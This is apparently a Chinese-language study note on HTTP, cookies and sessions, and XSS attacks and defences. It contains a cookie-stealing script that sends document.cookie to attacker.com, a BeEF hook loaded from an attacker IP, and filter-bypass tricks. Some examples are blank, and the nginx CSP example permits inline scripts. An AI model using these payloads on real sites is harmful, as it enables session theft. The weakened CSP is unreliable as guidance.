

---

## 一、HTTP协议与认证机制

### 1. HTTP核心特性
| 特性            | 说明                                                                 |
|-----------------|----------------------------------------------------------------------|
| 无状态性         | 默认不保留客户端状态，需借助Cookie/Session维持会话                  |
| 请求方法         | GET/POST/PUT/DELETE等，详见下表                                      |
| 响应状态码       | 200 OK / 404 Not Found / 500 Internal Server Error等                |

#### HTTP请求方法对比
| 类型     | 方法       | 功能描述                                |
|----------|------------|----------------------------------------|
| 常用     | GET        | 获取资源                                |
|          | POST       | 提交数据                                |
| 不常用   | PUT        | 替换服务器资源                          |
|          | DELETE     | 删除指定资源                            |
| 扩展方法 | MKCOL/PATCH| 创建集合/部分资源修改                    |

---

## 二、Cookie与Session机制

### 1. Cookie工作流程


### 2. Cookie关键属性
| 属性        | 说明                                                                 |
|-------------|----------------------------------------------------------------------|
| Expires/Max-Age | 过期时间控制（Max-Age优先级更高）                                   |
| Domain       | 生效域名（.example.com允许子域名共享）                              |
| HttpOnly     | 禁止JavaScript访问（重要防御措施）                                  |
| Secure       | 仅HTTPS连接传输                                                     |

### 3. Session管理流程
```php
<?php
// 启动会话
session_start();
// 存储用户信息
$_SESSION['user'] = 'admin';
// 销毁会话
session_destroy();
```

---

## 三、XSS漏洞原理与分类

### 1. XSS定义
**跨站脚本攻击（Cross-Site Scripting）**  
攻击者向网页注入恶意脚本，当用户浏览时触发执行，实现：
- Cookie窃取
- 会话劫持
- 钓鱼攻击

### 2. 攻击类型对比
| 类型       | 触发方式                  | 持久性    | 典型案例                          |
|------------|---------------------------|-----------|-----------------------------------|
| 反射型XSS  | 恶意链接诱导点击          | 非持久    | `http://site.com?q=<script>...</script>` |
| 存储型XSS  | 提交内容存储到数据库      | 持久      | 论坛评论注入恶意代码              |
| DOM型XSS   | 前端JS处理漏洞            | 非持久    | `eval(location.hash.slice(1))`   |

---

## 四、XSS攻击实战案例

### 1. 基础Payload集合
```html
<!-- 弹窗测试 -->
<script>alert('XSS')</script>

<!-- Cookie窃取 -->
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>

<!-- 图片标签利用 -->


<!-- 伪协议利用 -->
<a href="javascript:alert(document.domain)">点击</a>
```

### 2. 高级绕过技巧
| 过滤规则         | 绕过方法                                                      |
|------------------|---------------------------------------------------------------|
| 关键词过滤       | 大小写混写：`<ScRipt>` / 嵌套标签：`<scr<script>ipt>`         |
| 引号过滤         | 使用HTML实体：`&#x27;` / 无引号写法：`onerror=alert(1)`       |
| 符号编码         | URL编码：`%3Cscript%3E` / Unicode编码：`\u003Cscript\u003E`   |

---

## 五、XSS检测与利用工具

### 1. 常用工具对比
| 工具名称       | 功能特点                                     | 项目地址                                 |
|----------------|----------------------------------------------|------------------------------------------|
| **XSStrike**   | 智能Payload生成、WAF识别                    | [GitHub](https://github.com/s0md3v/XSStrike) |
| **BeEF**       | 浏览器漏洞利用框架                           | [官网](https://beefproject.com/)         |
| **XSSer**      | 自动化扫描与漏洞验证                         | [官网](https://xsser.03c8.net/)          |

### 2. BeEF框架实战
```javascript
// Hook注入代码
<script src="http://攻击IP:3000/hook.js"></script>

// 典型攻击模块：
1. 键盘记录（Log Keystrokes）
2. 社会工程（Fake Login Prompt）
3. 端口扫描（Internal Network Scanning）
```

---

## 六、XSS防御方案

### 1. 输入输出过滤
| 防御层级        | 实施方法                                                                 |
|-----------------|--------------------------------------------------------------------------|
| 输入验证        | 白名单过滤（如仅允许字母数字）                                           |
| 输出编码        | HTML实体转义（`< → &lt;`） / JavaScript编码（`" → \x22`）                |
| CSP策略         | 设置Content-Security-Policy头限制脚本源                                   |

### 2. 安全头配置示例
```nginx
# 启用CSP
add_header Content-Security-Policy "default-src 'self'; script-src 'unsafe-inline'";

# 设置HttpOnly和Secure
add_header Set-Cookie "PHPSESSID=abc123; Path=/; HttpOnly; Secure";
```

---

## 七、实战靶场与闯关

### 1. 推荐训练环境
| 靶场名称       | 特点                          | 访问地址                                |
|----------------|-------------------------------|-----------------------------------------|
| **DVWA**       | 多难度等级配置                | `http://localhost/dvwa/`               |
| **XSS Labs**   | 20+闯关挑战                   | `http://localhost/xsslabs/`            |
| **Pikachu**    | 中文漏洞演示环境              | `http://localhost/pikachu/vul/xss/`    |

### 2. XSS Labs解题示例
**Level 5: 事件处理绕过**
```html
">
```

---

## 八、扩展知识：现代Web安全机制

### 1. 内容安全策略（CSP）
```http
Content-Security-Policy: 
  default-src 'none';
  script-src 'self' https://trusted.cdn.com;
  img-src *;
  style-src 'unsafe-inline';
```

### 2. 安全Cookie实践
```javascript
// 服务端设置
response.setHeader('Set-Cookie', [
  `sessionID=abc123; HttpOnly; Secure; SameSite=Strict`,
  `theme=dark; Max-Age=2592000`
]);
```

---

## 九、总结
XSS作为OWASP Top 10常客，需从开发、测试、运维全流程防御：  
4. 开发阶段严格实施输入输出过滤  
5. 测试环节使用自动化工具扫描验证  
6. 生产环境配置安全头与监控告警  
7. 定期进行安全培训与攻防演练  

```